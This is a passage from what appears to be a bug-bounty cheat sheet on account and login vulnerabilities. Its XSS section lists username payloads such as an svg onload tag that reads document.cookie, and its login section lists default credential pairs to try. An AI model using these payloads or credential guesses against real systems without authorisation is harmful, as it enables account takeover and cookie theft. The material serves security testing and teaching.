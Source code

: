 ```sh
- Test if an account can be deleted without entering the password.
```

## **1️⃣1️⃣ XSS via Username Input**

```sh
- Test if special characters in the username cause XSS vulnerabilities:
  - username='"><u>hossamshady
  - username="<svg/onload=confirm(document.cookie)>"@x.y
  - username="hossam@gmail.com'"><svg/onload=confirm(1)>"
  - username="\><img src=https://example.com/xss.png>"@x.y
```

---

# 🔑 Login Vulnerabilities Cheat Sheet

## **Introduction**

Login vulnerabilities can allow attackers to gain unauthorized access, exploit authentication mechanisms, and compromise user accounts. Below is a list of common login vulnerabilities and attack scenarios.

---

## **1️⃣ Insecure Data Transfer**

```sh
- Check if the login page is using HTTP instead of HTTPS, which exposes credentials to interception.
```

## **2️⃣ No Rate Limit on Password Attempts**

```sh
- If there is no rate limit, brute-force attacks can be performed.
- Example: https://hackerone.com/reports/410451
```

## **3️⃣ Testing for Default Credentials**

```sh
- Try using common default credentials:
  - test:test
  - admin:admin
  - admin:password
  - kali:kali
  - admin:123
  - admin:default
  - root:root
  - root:toor
  - admin:kali
  - kali:root
  - admin:123456789
```
